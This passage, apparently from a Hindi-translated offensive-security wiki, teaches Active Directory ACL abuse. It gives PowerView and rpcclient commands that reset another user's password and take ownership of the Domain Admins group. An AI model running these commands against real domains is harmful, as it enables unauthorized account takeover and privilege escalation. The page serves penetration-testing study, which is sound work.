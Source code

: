 पावरव्यू के साथ ऐसा ही करें:
```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```
![](../../../.gitbook/assets/14.png)

एक और तरीका जो पासवर्ड-सुरक्षित-स्ट्रिंग परिवर्तन के साथ खेलने की आवश्यकता नहीं है:
```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```
...या एक लाइनर अगर कोई इंटरैक्टिव सत्र उपलब्ध नहीं है:
```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
![](../../../.gitbook/assets/16.png)

और एक अंतिम तरीका है इसे लिनक्स से प्राप्त करने का:
```markup
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```
अधिक जानकारी:

* [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c)

## समूह पर WriteOwner

ध्यान दें कि हमले से पहले `Domain Admins` के मालिक `Domain Admins` है:

![](../../../.gitbook/assets/17.png)

ACE जाँच के बाद, यदि हमें पाता चलता है कि हमारे नियंत्रण में एक उपयोगकर्ता के पास `WriteOwner` अधिकार हैं `ObjectType:All` पर
```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
![](../../../.gitbook/assets/18.png)

...हम `Domain Admins` ऑब्जेक्ट के मालिक को हमारे उपयोगकर्ता, जो हमारे मामले में `spotless` है, के रूप में बदल सकते हैं। ध्यान दें कि `-Identity` के साथ निर्दिष्ट किए गए SID `Domain Admins` समूह का SID है:
```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
//You can also use the name instad of the SID (HTB: Reel)
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```
![](../../../.gitbook/assets/19.png)
